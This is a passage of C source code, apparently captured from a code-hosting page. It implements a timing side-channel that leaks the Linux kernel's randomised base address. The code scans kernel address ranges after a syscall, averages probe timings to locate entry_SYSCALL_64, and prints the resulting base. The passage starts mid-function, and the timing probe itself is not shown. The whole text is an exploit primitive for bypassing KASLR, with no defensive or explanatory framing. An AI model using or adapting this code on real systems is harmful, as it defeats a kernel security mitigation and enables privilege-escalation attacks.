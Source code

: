```C
    c = (d << 32) | c;
    return c - a;
}

#define DUMMY_ITERATIONS 5
#define ITERATIONS 100

uint64_t leak_syscall_entry(unsigned long long offset)
{
    unsigned long long STEP = 0x100000ull;
    unsigned long long SCAN_START = 0xffffffff80000000ull + offset, SCAN_END = 0xffffffffc0000000ull + offset;
    unsigned long long ARR_SIZE = (SCAN_END - SCAN_START) / STEP;

    uint64_t *data = (uint64_t *)malloc(sizeof(uint64_t) * ARR_SIZE);
    uint64_t min = ~0, addr = ~0;

    for (int i = 0; i < ITERATIONS + DUMMY_ITERATIONS; i++)
    {
        for (uint64_t idx = 0; idx < ARR_SIZE; idx++)
        {
            uint64_t test = SCAN_START + idx * STEP;
            syscall(104);
            uint64_t time = sidechannel(test);
            if (i >= DUMMY_ITERATIONS)
                data[idx] += time;
        }
    }

    for (int i = 0; i < ARR_SIZE; i++)
    {
        data[i] /= ITERATIONS;
        if (data[i] < min)
        {
            min = data[i];
            addr = SCAN_START + i * STEP;
        }
    }

    return addr;
}

int main(int argc, char **argv)
{
    if (argc != 2)
    {
        puts("[*] Usage: ./binary entry_SYSCALL_64_offset(in hex)");
        return -1;
    }

    char *p_end;

    unsigned long long entry_SYSCALL_64_offset = strtoull(argv[1], &p_end, 16);

    printf("%llx", leak_syscall_entry(entry_SYSCALL_64_offset) - entry_SYSCALL_64_offset);

    return 0;
}

```
